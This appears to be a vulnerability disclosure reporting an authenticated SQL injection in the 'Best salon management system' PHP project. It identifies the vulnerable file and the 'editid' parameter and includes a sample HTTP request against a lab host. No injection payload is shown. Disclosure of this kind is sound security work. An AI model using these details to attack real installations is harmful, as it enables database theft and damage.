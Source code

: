 



The Best salon management system has an SQL injection vulnerability. If an attacker is authenticated, they can exploit this vulnerability to steal information or damage the database.





Source code address：https://www.sourcecodester.com/php/18171/best-salon-management-system-project-php.html



The vulnerability is located in the barbarbaba/panel/edit_plan.php file. The code receives the data submitted by the user and then updates the information in the database. There is a direct concatenation with the SQL statement without too many restrictions, which poses a security risk.

![image-20250621121611238](images/image-20250621121611238.png)





Vulnerability verification：

```
GET /barbarbaba/panel/edit_plan.php?editid=2 HTTP/1.1
Host: 192.168.80.152
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/barbarbaba/panel/manage_plan.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9qunanken3a3eh5ub3i2aegl9i
Connection: close


```

 ![image-20250621121553614](images/image-20250621121553614.png)



































